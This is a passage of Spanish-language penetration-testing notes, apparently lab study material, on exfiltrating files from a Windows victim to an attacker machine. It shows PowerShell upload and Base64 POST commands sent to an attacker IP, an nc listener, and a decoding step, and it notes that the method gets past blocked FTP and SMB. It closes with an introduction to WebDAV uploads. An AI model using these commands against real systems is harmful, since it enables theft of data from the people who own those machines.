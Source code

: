 - Ejecutamos la función de upload:
```
`Invoke-FileUpload -Uri http://192.168.49.128:8000/upload -File C:\Windows\System32\drivers\etc\hosts`
```

- Resultado esperado:
```
[+] File Uploaded:  C:\Windows\System32\drivers\etc\hosts [+] 
FileHash:  5E7241D66FD77E9E8EA866B6278B2373`
```

- Funciona incluso cuando FTP o SMB están bloqueados, siempre que haya HTTP/HTTPS saliente.
- La integridad del archivo se verifica con su **hash MD5**.
- Útil para exfiltrar archivos sin usar métodos tradicionales de transferencia.

## 3. Carga de archivos usando Base64 y PowerShell

##### 1. Codificar el archivo en Base64 en la víctima
```
$b64 = [System.Convert]::ToBase64String((Get-Content -Path 'C:\Windows\System32\drivers\etc\hosts' -Encoding Byte))`
```

- `Get-Content -Encoding Byte` → lee el archivo como bytes.
- `ToBase64String(...)` → convierte esos bytes en una cadena Base64.
- Resultado: `$b64` contiene todo el archivo codificado en Base64.
##### 2. Enviar el archivo al atacante vía HTTP POST
```
Invoke-WebRequest -Uri http://192.168.49.128:8000/ -Method POST -Body $b64`
```
- `Invoke-WebRequest` envía la cadena Base64 al servidor atacante como **cuerpo de la solicitud POST**.
- Puede sustituirse por `Invoke-RestMethod`.
##### 3. Capturar la cadena Base64 en el atacante
En la máquina atacante, ejecuto:
```
nc -lvnp 8000
``` 
##### 5. Decodificar Base64 y reconstruir el archivo
```
echo <base64> | base64 -d -w 0 > hosts`
```
- Convierte la cadena Base64 de vuelta a bytes originales.
- Guarda el archivo reconstruido en el atacante (`hosts`).
----------

# Subidas SMB

Las empresas suelen permitir tráfico saliente por **HTTP (TCP/80)** y **HTTPS (TCP/443)**, pero normalmente **bloquean SMB (TCP/445)** para protegerse de ataques. Una alternativa es usar **SMB sobre HTTP mediante WebDAV (RFC 4918)**, que permite que un servidor web funcione como servidor de archivos y admite HTTPS. Así, al intentar conectarse a un recurso compartido, el sistema primero usa SMB y, si no encuentra nada, recurre a HTTP/WebDAV.
